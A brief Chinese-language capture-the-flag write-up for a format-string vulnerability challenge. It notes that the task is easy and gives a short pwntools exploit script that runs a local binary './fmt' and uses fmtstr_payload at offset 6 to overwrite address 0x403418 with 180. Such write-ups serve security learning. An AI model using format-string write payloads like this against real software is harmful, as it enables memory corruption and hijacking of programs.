

本题真的很简单，格式化字符串漏洞，使用pwntools的fmtstr_payload模块将对应地址的值改为目标值即可

```python
from pwn import *

p = process('./fmt')
context.update(arch = 'amd64')

targe = 0x403418

payload = fmtstr_payload(6, {targe:180})
p.sendline(payload)

p.interactive()
```